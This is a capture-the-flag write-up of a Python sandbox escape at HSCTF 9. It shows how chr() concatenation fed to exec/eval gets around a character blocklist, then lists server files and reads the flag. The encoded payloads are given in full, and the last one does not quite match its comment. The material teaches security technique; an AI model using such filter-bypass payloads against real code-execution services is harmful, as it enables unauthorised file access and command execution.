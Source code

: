 ## Introduction
The _paas (Python as a Service)_ was a Web challenge presented at the [HSCTF](https://ctf.hsctf.com/). The challenge contained a host to connect to using Netcat:

`nc HOST PORT`

The server returned the following message and a prompt:

```text
== proof-of-work: disabled ==
Python as a Service:
Execute arbitrary Python code (with certain restrictions)
>
```

The "certain restrictions" turned out to be the inability to use the following characters (among other):
- `.`
- ` ` (space)
- `=`
- square brackets
- `\`

It effectively invalidates any civilized attempts at writing code in Python. A less conventional method needs to be employed.

# Attack vector

After a while we figured out that calling the following is possible:
- `chr(n)` - a built-in function that returns a representation of the ASCII code point n. Example: `chr(105)` evaluates to `i`
- `+` - addition works
- `eval(...)` - evaluates Python code given to it as plaintext 
- `exec(...)` - executes Python code given to it as plaintext (it's somewhat different than `eval` though)

Therefore, any command can be executed using the template:

`eval(chr(i)+chr(j)+...+chr(n))` where i, j and n are relevant ASCII code points.

The assumption was that the flag is hidden in the filesystem. The plan was to:
- Write Python commands as we go
- Translate them to the match the character concatenation format
- Run them

For example, the command `import os` can be translated to:

`exec(chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(32)+chr(111)+chr(115))`

# Execution
First, the following commands were run:
```python
import os
os.listdir()
```
The `listdir()` returned the following:
`['paas.py', 'flag']`

Now, all that's left was printing the contents of the flag:
```python
with open('flag', 'r') as f: print(f.readlines())
```
The result was:

`['flag{vuln3r4b1l17y_45_4_53rv1c3}\n']`

which was the correct answer.

All three commands translated to the char concatenation format were:
```python
exec(chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(32)+chr(111)+chr(115)) # import os
eval(chr(111)+chr(115)+chr(46)+chr(108)+chr(105)+chr(115)+chr(116)+chr(100)+chr(105)+chr(114)+chr(40)+chr(41)) # os.listdir()
exec(chr(119)+chr(105)+chr(116)+chr(104)+chr(32)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(39)+chr(44)+chr(32)+chr(39)+chr(114)+chr(39)+chr(41)+chr(32)+chr(97)+chr(115)+chr(32)+chr(102)+chr(58)+chr(32)+chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(102)+chr(41)) # with open('flag', 'r') as f: print(f.readlines())
```

---

_HSCTF 9 was held on 06-11.06.2022_

_Shout out to [kzawistowski](https://github.com/kzawistowski) for participating in the CTF with me!_
